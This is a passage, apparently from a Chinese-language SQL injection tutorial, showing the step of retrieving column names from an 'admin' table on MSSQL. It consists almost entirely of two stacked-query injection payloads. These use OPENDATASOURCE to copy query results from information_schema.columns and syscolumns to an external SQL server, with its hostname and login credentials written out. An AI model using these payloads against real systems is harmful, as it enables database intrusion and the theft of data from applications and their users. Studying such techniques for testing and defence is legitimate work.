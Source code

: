 ![img](MSSQL%E5%92%8Coracle%E6%B3%A8%E5%85%A5.assets/2173462-20211120222216202-1518656758.png)

3. 获取数据库admin表中的所有列名

```
# 查询information_schema数据库
id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test selectcolumn_name from information_schema.columns where table_name='admin'--+

# 查询syscolumns表
id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select namefrom dbo.syscolumns where id=1977058079--+
```
